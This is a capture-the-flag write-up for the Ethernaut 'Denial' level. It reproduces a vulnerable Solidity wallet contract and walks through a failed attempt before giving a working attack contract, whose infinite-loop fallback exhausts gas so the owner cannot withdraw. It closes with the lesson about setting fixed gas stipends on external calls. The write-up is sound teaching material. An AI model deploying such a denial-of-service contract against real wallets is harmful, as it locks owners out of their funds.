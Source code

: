 # 20. Denial
Difficulty 5/10

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Process:
Referring: https://medium.com/hackernoon/hackpedia-16-solidity-hacks-vulnerabilities-their-fixes-and-real-world-examples-f3210eba5148  

3 types of DoS attacks
1. Attacker makes an array too large causing a function that loops through the array to exceed the block gas limit
2. Owner loses keys needed for a require function
3. Attack contract that does not accept ether required to progress state of the contract

Level contract does not look like 1 or 2. Making an attack contract in Remix (copied from 7. Force):
denialAttack.sol:  
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

then in console:
```
await contract.setWithdrawPartner([address of denialAttack])
```

This does not work because like the comments say, recipient can revert while the owner still gets their share. Even if `partner.call{value:amountToSend}("")` fails, `owner.transfer(amountToSend)` still goes through.

Got stuck here and found solution on OpenZeppelin forums:
denialAttack.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Attack {

  fallback() payable external{
      while(true) {

      }
  }
}
```

deploy on remix and setting withdraw partner to this contract.  

**End**
Level completed!
Difficulty 5/10

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value().

Typically one should follow the checks-effects-interactions pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.